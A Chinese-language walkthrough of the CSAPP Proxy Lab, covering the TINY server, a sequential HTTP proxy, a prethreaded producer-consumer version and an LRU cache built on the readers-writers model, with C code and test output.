    Web Proxy 是 Web 浏览器和服务器之间的一个中间程序。我们日常使用浏览器访问某个网站时，浏览器不是直接请求服务器来获取内容的，而是联系 Proxy，Proxy 转发请求到服务器，服务器回复 Proxy 后，Proxy 再将回复发送到浏览器。

    即原来的客户端-服务器是这样：

    

    加了 Proxy 变成这样:

    

    本实验就是要实现一个支持多线程带缓存的 Web Proxy，分为三个部分来进行：

    - Part 1：实现一个最基础的顺序代理 (修改`proxy.c`)
    - Part 2：进一步优化，使代理支持多线程（生产者-消费者模型） (修改`proxy.c`/新增`sbuf.c`和`sbuf.h`)
    - Part 3：使用 LRU 策略缓存 Web 中的对象（读者-写者模型）

2. ### TINY Web 服务器详解

    代理相对于客户端来说充当了服务端的角色，相对于服务端来说又充当了客户端的角色。CSAPP 课本用 250 行代码为我们实现了一个非常简单的 Web 服务器，在做实验之前，深刻理解它是非常重要的。

    首先要做的事就是解析 HTTP 请求：

    #### 解析 HTTP 请求

    HTTP 请求的组成是这样的：一个请求行，后面跟随零个或更多个请求报头，再跟随一个空的文本行来终止报头列表。请求行的形式是：`method URI version`，本服务器只支持 `GET` 方法。

    将 `URI` 解析出来后，需要判断请求的是静态内容还是动态内容，分别执行。给出函数 `doit`：

    ```C
    /*
    * 处理请求
    */
    void doit(int fd)
    {
        int is_static;
        struct stat sbuf;
        char buf[MAXLINE], method[MAXLINE], uri[MAXLINE], version[MAXLINE];
        char filename[MAXLINE], cgiargs[MAXLINE];
        rio_t rio;

        /* 读取请求行 */
        Rio_readinitb(&rio, fd);
        Rio_readlineb(&rio, buf, MAXLINE);
        printf("Request headers:\n");
        printf("%s", buf);
        sscanf(buf, "%s %s %s", method, uri, version); // 解析请求行
        if (strcasecmp(method, "GET")) // 只支持 GET 方法
        {
            clienterror(fd, method, "501", "Not Implemented", "Tiny does not implement this method");
            return;
        }
        read_requesthdrs(&rio);            // 读取请求报头
        is_static = parse_uri(uri, filename, cgiargs); // 解析 URI
        if (stat(filename, &sbuf) < 0)     // 检查文件是否存在
        {
            clienterror(fd, filename, "404", "Not Found", "Tiny couldn't find this file");
            return;
        }

        if (is_static) // 静态内容
        {
            if (!(S_ISREG(sbuf.st_mode)) || !(S_IRUSR & sbuf.st_mode))
            {
                clienterror(fd, filename, "403", "Forbidden", "Tiny couldn't read the file");
                return;
            }
            serve_static(fd, filename, sbuf.st_size); // 服务静态内容
        }
        else           // 动态内容
        {
            if (!(S_ISREG(sbuf.st_mode)) || !(S_IXUSR & sbuf.st_mode))
            {
                clienterror(fd, filename, "403", "Forbidden", "Tiny couldn't run the CGI program");
                return;
            }
            serve_dynamic(fd, filename, cgiargs); // 服务动态内容
        }
    }
    ```

    #### 提供静态内容

    一个 HTTP 响应的组成是这样的：一个响应行，后面跟随着零个或更多的相应报头，再跟随着一个终止报头的空行，随后跟随响应主体，相应行的格式为`version status-code status-massage`。于是给出函数`serve_static`:

    ```C
    /*
    * 服务静态内容
    */
    void serve_static(int fd, char *filename, int filesize)
    {
        int srcfd;
        char *srcp, filetype[MAXLINE], buf[MAXBUF];
   
        /* 发送响应行给client */
        get_filetype(filename, filetype);
        sprintf(buf, "HTTP/1.0 200 OK\r\n");
        sprintf(buf, "%sServer: Tiny Web Server\r\n", buf);
        sprintf(buf, "%sConnection: close\r\n", buf);
        sprintf(buf, "%sContent-length: %d\r\n", buf, filesize);
        sprintf(buf, "%sContent-type: %s\r\n\r\n", buf, filetype);
        Rio_writen(fd, buf, strlen(buf));
        printf("Response headers:\n");
        printf("%s", buf);

        /* 发送响应主体给client */
        srcfd = Open(filename, O_RDONLY, 0); // 获得文件描述符
        srcp = Mmap(0, filesize, PROT_READ, MAP_PRIVATE, srcfd, 0); // 映射文件到内存
        Close(srcfd);
        Rio_writen(fd, srcp, filesize); // 文件传送
        Munmap(srcp, filesize);         // 释放内存
    }
    ```

    #### 提供动态内容

    TINY 派生一个子进程并在子进程的上下文中运行一个 CGI 程序：

    ```C
    /*
    * 服务动态内容
    */
    void serve_dynamic(int fd, char *filename, char *cgiargs)
    {
        char buf[MAXLINE], *emptylist[] = { NULL };

        /* Return first part of HTTP response */
        sprintf(buf, "HTTP/1.0 200 OK\r\n");
        Rio_writen(fd, buf, strlen(buf));  // 响应行
        sprintf(buf, "%sServer: Tiny Web Server\r\n", buf);
        Rio_writen(fd, buf, strlen(buf));  // 响应报头

        if (Fork() == 0) // 子进程
        {
            /* Real server would set all CGI vars here */
            setenv("QUERY_STRING", cgiargs, 1); // 设置环境变量
            Dup2(fd, STDOUT_FILENO);            // 重定向标准输出到 client
            Execve(filename, emptylist, environ); // 执行 CGI 程序
        }
        Wait(NULL); // 等待子进程结束
    }
    ```

    #### 主函数

    ```C
    int main(int argc, char **argv)
    {
        int listenfd, connfd;
        char hostname[MAXLINE], port[MAXLINE];
        socklen_t clientlen;
        struct sockaddr_storage clientaddr;

        /* 检查命令行参数 */
        if (argc != 2)
        {
            fprintf(stderr, "usage: %s <port>\n", argv[0]);
            exit(1);
        }

        /* 监听端口 */
        listenfd = Open_listenfd(argv[1]);
        while (1)
        {
            clientlen = sizeof(struct sockaddr_storage);
            connfd = Accept(listenfd, (SA *)&clientaddr, &clientlen); // 接受请求
            Getnameinfo((SA *)&clientaddr, clientlen, hostname, MAXLINE, port, MAXLINE, 0); // 获取客户端地址
            printf("Accepted connection from (%s, %s)\n", hostname, port);
            doit(connfd); // 处理请求
            Close(connfd);
        }
    }
    ```

3. ### Part 1: Implementing a sequential web proxy

    要求：

    - 实现一个处理 HTTP/1.0 GET 请求的基本顺序 web 代理
    - 如果接收到一个浏览器请求为 HTTP/1.1 版本，则应将它作为 HTTP/1.0 请求转发
    - 转发合法的 HTTP 请求
        - 假设请求为 GET http://www.cmu.edu/hub/index.html HTTP/1.1
        - 则主机名为 www.cmu.edu
        - 请求的页面为 /hub/index.html
        - HTTP 请求每行以 \r\n 结束，以一个空行 \r\n 结尾
    - 代理发送的请求的 header 为：
        - Host: 如 Host: www.cmu.edu
        - User-Agent: 如 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.3) Gecko/20120305 Firefox/10.0.3
        - Connection: 必须发送 Connection: close
        - Proxy-Connection: 必须发送 Proxy-Connection: close
    - 要处理过早关闭的连接，即必须捕获 SIGPIPE 信号

    #### 等待客户端连接

    首先是我们的main函数，不断等待客户端的连接，代码与 TINY服务器代码完全相同：

    ```C
    int main(int argc, char **argv)
    {
        int listenfd, connfd;
        socklen_t clientlen;
        char hostname[MAXLINE], port[MAXLINE];

        struct sockaddr_storage clientaddr;
        if (argc != 2)
        {
            fprintf(stderr, "usage :%s <port> \n", argv[0]);
            exit(1);
        }
        signal(SIGPIPE, sigpipe_handler);	// 捕获SIGPIPE信号
        listenfd = Open_listenfd(argv[1]);
        while (1)
        {
            clientlen = sizeof(clientaddr);
            connfd = Accept(listenfd, (SA *)&clientaddr, &clientlen);

            Getnameinfo((SA *)&clientaddr, clientlen, hostname, MAXLINE, port, MAXLINE, 0);
            printf("Accepted connection from (%s %s).\n", hostname, port);

            doit(connfd);
            Close(connfd); // 关闭客户端的连接描述符
        }
        return 0;
    }
    ```

    #### 转发与回复

    `doit`函数前半部分与 TINY 服务器相似，不同的是将后半部分的请求处理改为转发给服务器，再将服务器的回复回复给客户端:

    ```C
    void doit(int connfd)
    {
        char buf[MAXLINE], method[MAXLINE], uri[MAXLINE], version[MAXLINE];
        char server[MAXLINE];
    
        rio_t rio, server_rio;

        Rio_readinitb(&rio, connfd);
        Rio_readlineb(&rio, buf, MAXLINE);
        sscanf(buf, "%s %s %s", method, uri, version);

        if (strcasecmp(method, "GET"))
        {
            printf("Proxy does not implement the method");
            return;
        }

        struct Uri *uri_data = (struct Uri *)malloc(sizeof(struct Uri));
        // 解析uri
        parse_uri(uri, uri_data);
        
        // 设置header
        build_header(server, uri_data, &rio);

        // 连接服务器
        int serverfd = Open_clientfd(uri_data->host, uri_data->port);
        if (serverfd < 0)
        {
            printf("connection failed\n");
            return;
        }
        // 转发给服务器
        Rio_readinitb(&server_rio, serverfd);
        Rio_writen(serverfd, server, strlen(server));

        size_t n;
        // 回复给客户端
        while ((n = Rio_readlineb(&server_rio, buf, MAXLINE)) != 0)
        {
            printf("proxy received %d bytes,then send\n", (int)n);
            Rio_writen(connfd, buf, n);
        }
        // 关闭服务器描述符
        Close(serverfd);
    }
    ```

    #### 构建header

    ```C
    void build_header(char *http_header, struct Uri *uri_data, rio_t *client_rio)
    {
        char *User_Agent = "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.3) Gecko/20120305 Firefox/10.0.3\r\n";
        char *conn_hdr = "Connection: close\r\n";
        char *prox_hdr = "Proxy-Connection: close\r\n";
        char *host_hdr_format = "Host: %s\r\n";
        char *requestlint_hdr_format = "GET %s HTTP/1.0\r\n";
        char *endof_hdr = "\r\n";

        char buf[MAXLINE], request_hdr[MAXLINE], other_hdr[MAXLINE], host_hdr[MAXLINE];
        sprintf(request_hdr, requestlint_hdr_format, uri_data->path);
        while (Rio_readlineb(client_rio, buf, MAXLINE) > 0)
        {
            if (strcmp(buf, endof_hdr) == 0)
                break; /*EOF*/

            if (!strncasecmp(buf, "Host", strlen("Host"))) /*Host:*/
            {
                strcpy(host_hdr, buf);
                continue;
            }

            if (!strncasecmp(buf, "Connection", strlen("Connection")) && !strncasecmp(buf, "Proxy-Connection", strlen("Proxy-Connection")) && !strncasecmp(buf, "User-Agent", strlen("User-Agent")))
            {
                strcat(other_hdr, buf);
            }
        }
        if (strlen(host_hdr) == 0)
        {
            sprintf(host_hdr, host_hdr_format, uri_data->host);
        }
        sprintf(http_header, "%s%s%s%s%s%s%s",
                request_hdr,
                host_hdr,
                conn_hdr,
                prox_hdr,
                User_Agent,
                other_hdr,
                endof_hdr);

        return;
    }
    ```

    #### 解析uri

    根据 uri 结构定义一个结构体：

    ```C
    struct Uri
    {
        char host[MAXLINE]; // 主机名
        char port[MAXLINE]; // 端口
        char path[MAXLINE]; // 请求路径
    };
    ```

    解析函数：

    ```C
    void parse_uri(char *uri, struct Uri *uri_data)
    {
        char *hostpose = strstr(uri, "//");
        //默认端口为80
        if (hostpose == NULL)
        {
            char *pathpose = strstr(uri, "/");
            if (pathpose != NULL)
                strcpy(uri_data->path, pathpose);
            strcpy(uri_data->port, "80");
            return;
        }
        else
        {
            char *portpose = strstr(hostpose + 2, ":");
            if (portpose != NULL)
            {
                int tmp;
                sscanf(portpose + 1, "%d%s", &tmp, uri_data->path);
                sprintf(uri_data->port, "%d", tmp);
                *portpose = '\0';
            }
            else
            {
                char *pathpose = strstr(hostpose + 2, "/");
                if (pathpose != NULL)
                {
                    strcpy(uri_data->path, pathpose);
                    strcpy(uri_data->port, "80");
                    *pathpose = '\0';
                }
            }
            strcpy(uri_data->host, hostpose + 2);
        }
        return;
    }
    ```

    #### 测试与结果

    ```bash
    09-Proxy-Lab$ sudo apt install net-tools
    09-Proxy-Lab$ make clean && make && ./driver.sh
    *** Basic ***
    ...
    Success: Files are identical.
    Killing tiny and proxy
    basicScore: 40/40
    ```

4. ### Part 2: Dealing with multiple concurrent requests

    设计多线程并发处理客户端请求，这里采用预线程化的技术，如图：

    

    这是一个生产者-消费者模型，我们回顾一下：

    #### 生产者-消费者模型

    生产者和消费者线程共享一个有 n 个槽的优先缓冲区，生产者反复地生成新的项目，并把它们插入到缓冲区中。消费者线程不断从缓冲区中取出，这些项目然后使用它们。因为插入和取出项目都涉及更新共享变量，所以我们必须保证对缓冲区地访问是互斥的，并调度对缓冲区地访问：

    - 如果没有槽位：生产者必须等待
    - 如果没有项目：消费者必须等待

    在预线程化的服务器中，客户端就是生产者，不断产生连接；Proxy 就是消费者，不断选中客户端连接。为此，开发一个 SBUF 包来实现这个缓冲区地调度。缓冲区设计：

    ```C
    typedef struct {
        int *buf;          /* Buffer array */         
        int n;             /* Maximum number of slots */
        int front;         /* buf[(front+1)%n] is first item */
        int rear;          /* buf[rear%n] is last item */
        sem_t mutex;       /* Protects accesses to buf */
        sem_t slots;       /* Counts available slots */
        sem_t items;       /* Counts available items */
    } sbuf_t;
    ```

    其中有 3 个信号量:

    - mutex 初始化为 1，保证对缓冲区的访问是互斥的
    - slots 初始化为 n，记录槽位
    - items 初始化为 0，记录项目数

    由此，设计客户端向缓冲区插入函数：

    ```C
    void sbuf_insert(sbuf_t *sp, int item)
    {
        P(&sp->slots);                          /* Wait for available slot */
        P(&sp->mutex);                          /* Lock the buffer */
        sp->buf[(++sp->rear)%(sp->n)] = item;   /* Insert the item */
        V(&sp->mutex);                          /* Unlock the buffer */
        V(&sp->items);                          /* Announce available item */
    }
    ```

    - 首先有一个对 slots 的 P 操作，保证了如果槽位已满，则客户端被挂起，不会继续往缓冲区写入请求
    - 然后是一个 mutex 的 P 操作，保证了对缓冲区互斥的访问
    - 缓冲区插入完成后，释放所有的锁

    设计 Proxy 从缓冲区读入的函数：

    ```C
    int sbuf_remove(sbuf_t *sp)
    {
        int item;
        P(&sp->items);                          /* Wait for available item */
        P(&sp->mutex);                          /* Lock the buffer */
        item = sp->buf[(++sp->front)%(sp->n)];  /* Remove the item */
        V(&sp->mutex);                          /* Unlock the buffer */
        V(&sp->slots);                          /* Announce available slot */
        return item;
    }
    ```

    - 首先有一个对 items 的 P 操作，保证了如果没有项目，则 Proxy 被挂起，不会继续往缓冲区读出客户端
    - 然后是一个 mutex 的 P 操作，保证了对缓冲区互斥的访问
    - 缓冲区读出完成后，释放所有的锁，返回其中一个客户端的描述符

    #### 基于预线程化的 Proxy

    大部分代码与第 1 部分一样:

    ```C
    int main(int argc, char **argv)
    {
        int listenfd, connfd;
        socklen_t clientlen;
        char hostname[MAXLINE], port[MAXLINE];

        struct sockaddr_storage clientaddr;

        pthread_t tid;

        if (argc != 2)
        {
            fprintf(stderr, "usage :%s <port> \n", argv[0]);
            exit(1);
        }
        signal(SIGPIPE, sigpipe_handler);
        listenfd = Open_listenfd(argv[1]);

        sbuf_init(&sbuf, SBUFSIZE);
        //创建工作者线程
        for(int i = 0; i < NTHREADS; i++)
        {
            Pthread_create(&tid, NULL, thread, NULL);
        }

        while (1)
        {
            clientlen = sizeof(clientaddr);
            connfd = Accept(listenfd, (SA *)&clientaddr, &clientlen);
            //向缓冲区写入这个描述符
            sbuf_insert(&sbuf, connfd);
            Getnameinfo((SA *)&clientaddr, clientlen, hostname, MAXLINE, port, MAXLINE, 0);
            printf("Accepted connection from (%s %s).\n", hostname, port);
        }
        return 0;
    }
    ```

    然后是线程执行函数：

    ```C
    void *thread(void *vargp)
    {
        Pthread_detach(pthread_self());
        while(1)
        {
            // 从缓冲区中读出描述符
            int connfd = sbuf_remove(&sbuf);
            // 转发
            doit(connfd);
            // 关闭客户端的连接描述符
            Close(connfd);
        }
    }
    ```

    #### 测试与结果

    ```bash
    09-Proxy-Lab$ make clean && make && ./driver.sh
    *** Concurrency ***
    Starting tiny on port 19416
    Starting proxy on port 29575
    Starting the blocking NOP server on port 18281
    Trying to fetch a file from the blocking nop-server
    Fetching ./tiny/home.html into ./.noproxy directly from Tiny
    Fetching ./tiny/home.html into ./.proxy using the proxy
    Checking whether the proxy fetch succeeded
    Success: Was able to fetch tiny/home.html from the proxy.
    Killing tiny, proxy, and nop-server
    concurrencyScore: 15/15
    ```

5. ### Part 3: Caching web objects

    在 Proxy 中，当多个客户端或一个客户端多次访问同一个服务端的同一对象时，Proxy 每次都要从服务端请求，这是很耗费时间的。如果 Proxy 能把访问过的对象存储下来，那么再次遇到同样的请求时，就不需要再连接到服务端了，可以直接回复给客户端。而 Cache 的大小并不是无限的，所以就又要考虑替换策略，本实验要求使用 LRU。

    #### 读者-写者模型

    一组并发的线程要访问同一个共享对象时，将只读对象的线程叫做读者，只修改对象的进程叫做写者。写者必须拥有对对象的独占的访问，而读者可以与其它读者共享对象。该模型分为两类：

    - 读优先：要求不让读者等待
    - 写优先：要求在写者之后到达的读者必须等待

    对于读者优先，只要有其它读者，则就应让读者先读，因此设置一个 `read_cnt` 记录读者数量，这个变量对于读者来说也是互斥的，所以设置一个 `mutex` 信号量来保护，读的过程中不允许写者写，写的过程不允许读者读，所以设置 `w` 来保护共享对象。

    读优先代码：

    ```C
    int read_cnt;
    sem_t mutex, w;    //都初始化为1

    void reader(void) 
    {
        while (1)
        {
            P(&mutex);
            readcnt++;
            if (readcnt == 1)
                P(&w);
            V(&mutex);
            
            P(&mutex);
            readcnt--;
            if (readcnt == 0)
                V(&w);
            V(&mutex);
        }
    }

    void writer(void)
    {
        while (1)
        {
            P(&w);
            ...
            V(&w)
        }
    }
    ```

    只有第一个读者对 `w` 加锁，最后一个读者解锁。因此一旦有一个读者加锁，写者就无法访问这个共享对象了，而其它读者可以随意访问。

    #### Cache 结构

    在本实验中，对 Cache 的访问就是一个经典的读者-写者问题。有的线程要从 Cache 中读出，有的线程要写入 Cache。显然，为了 Proxy 更加高效，这里应该用读优先的模型。定义如下的 Cache 结构:

    ```C
    // Cache结构
    typedef struct
    {
        char obj[MAX_OBJECT_SIZE];
        char uri[MAXLINE];
        int LRU;
        int isEmpty;

        int read_cnt; // 读者数量
        sem_t w;      // Cache信号量
        sem_t mutex;  // read_cnt信号量

    } block;

    typedef struct
    {
        block data[MAX_CACHE];
        int num;
    } Cache;
    ```

    #### 代码

    在`doit`函数中，得到一个请求后，先根据 uri 判断 Cache 中是否存在这个内容，如果存在，则直接回复；如果不存在，则连接服务器，回复结束后，把内容写进 Cache:

    ```C
    void doit(int connfd)
    {
        char buf[MAXLINE], method[MAXLINE], uri[MAXLINE], version[MAXLINE];
        char server[MAXLINE];

        rio_t rio, server_rio;

        char cache_tag[MAXLINE];
        Rio_readinitb(&rio, connfd);
        Rio_readlineb(&rio, buf, MAXLINE);
        sscanf(buf, "%s %s %s", method, uri, version);
        strcpy(cache_tag, uri);

        if (strcasecmp(method, "GET"))
        {
            printf("Proxy does not implement the method");
            return;
        }

        struct Uri *uri_data = (struct Uri *)malloc(sizeof(struct Uri));
        //判断uri是否缓存，若缓存，直接回复
        int i;
        if ((i = get_Cache(cache_tag)) != -1)
        {
            // 加锁
            P(&cache.data[i].mutex);
            cache.data[i].read_cnt++;
            if (cache.data[i].read_cnt == 1)
                P(&cache.data[i].w);
            V(&cache.data[i].mutex);

            Rio_writen(connfd, cache.data[i].obj, strlen(cache.data[i].obj));

            P(&cache.data[i].mutex);
            cache.data[i].read_cnt--;
            if (cache.data[i].read_cnt == 0)
                V(&cache.data[i].w);
            V(&cache.data[i].mutex);
            return;
        }

        //解析uri
        parse_uri(uri, uri_data);

        //设置header
        build_header(server, uri_data, &rio);

        //连接服务器
        int serverfd = Open_clientfd(uri_data->host, uri_data->port);
        if (serverfd < 0)
        {
            printf("connection failed\n");
            return;
        }

        Rio_readinitb(&server_rio, serverfd);
        Rio_writen(serverfd, server, strlen(server));

        char cache_buf[MAX_OBJECT_SIZE];
        int size_buf = 0;
        size_t n;
        while ((n = Rio_readlineb(&server_rio, buf, MAXLINE)) != 0)
        {
            //注意判断是否会超出缓存大小
            size_buf += n;
            if (size_buf < MAX_OBJECT_SIZE)
                strcat(cache_buf, buf);
            printf("proxy received %d bytes,then send\n", (int)n);
            Rio_writen(connfd, buf, n);
        }
        Close(serverfd);
        
        if (size_buf < MAX_OBJECT_SIZE)
        {
            write_Cache(cache_tag, cache_buf);
        }
    }
    ```

    要注意，每次读写缓存时，都要加相应的锁。Cache 以及 LRU 具体实现的代码，这里就不再讲解了。

    #### 测试与结果

    ```bash
    09-Proxy-Lab$ make clean && make && ./driver.sh
    *** Cache ***
    Starting tiny on port 2494
    Starting proxy on port 17349
    Fetching ./tiny/tiny.c into ./.proxy using the proxy
    Fetching ./tiny/home.html into ./.proxy using the proxy
    Fetching ./tiny/csapp.c into ./.proxy using the proxy
    Killing tiny
    Fetching a cached copy of ./tiny/home.html into ./.noproxy
    Success: Was able to fetch tiny/home.html from the cache.
    Killing proxy
    cacheScore: 15/15

    totalScore: 70/70
    ```

6. ### Chrome 实战测试

    ```bash
    # 编译并运行代理服务器，监听 15213 端口
    09-Proxy-Lab$ make clean && make && ./proxy 15213 &
    # 编译并运行内容服务器，设置端口为 15214
    09-Proxy-Lab$ cd ./tiny && make clean && make && ./tiny 15214 & cd ..
    # 测试，代理服务器 localhost:15213，目标服务器 localhost:15214
    CSAPP-Lab$ curl -v --proxy http://localhost:15213 http://localhost:15214/
    * Host localhost:15213 was resolved.
    * IPv6: ::1
    * IPv4: 127.0.0.1
    *   Trying [::1]:15213...
    * connect to ::1 port 15213 from ::1 port 59870 failed: Connection refused
    *   Trying 127.0.0.1:15213...
    * Connected to localhost (127.0.0.1) port 15213
    > GET http://localhost:15214/ HTTP/1.1
    > Host: localhost:15214
    > User-Agent: curl/8.5.0
    > Accept: */*
    > Proxy-Connection: Keep-Alive
    > 
    Accepted connection from (localhost, 40218)
    Accepted connection from (localhost 59258).
    GET / HTTP/1.0
    Host: localhost:15214
    Connection: close
    Proxy-Connection: close
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.3) Gecko/20120305 Firefox/10.0.3

    proxy received 17 bytes,then send
    proxy received 25 bytes,then send
    * proxy received 21 bytes,then send
    HTTP 1.0, assume close after body
    < HTTP/1.0 200 OK
    proxy received 25 bytes,then send
    < Server: Tiny Web Server
    < Content-length: 120
    proxy received 2 bytes,then send
    < Content-type: text/html
    < 
    proxy received 7 bytes,then send
    proxy received 33 bytes,then send
    proxy received 8 bytes,then send
    proxy received 40 bytes,then send
    proxy received 16 bytes,then send
    proxy received 8 bytes,then send
    proxy received 8 bytes,then send
    <html>
    <head><title>test</title></head>
    <body> 
    
    Dave O'Hallaron
    </body>
    </html>
    * Closing connection
    ```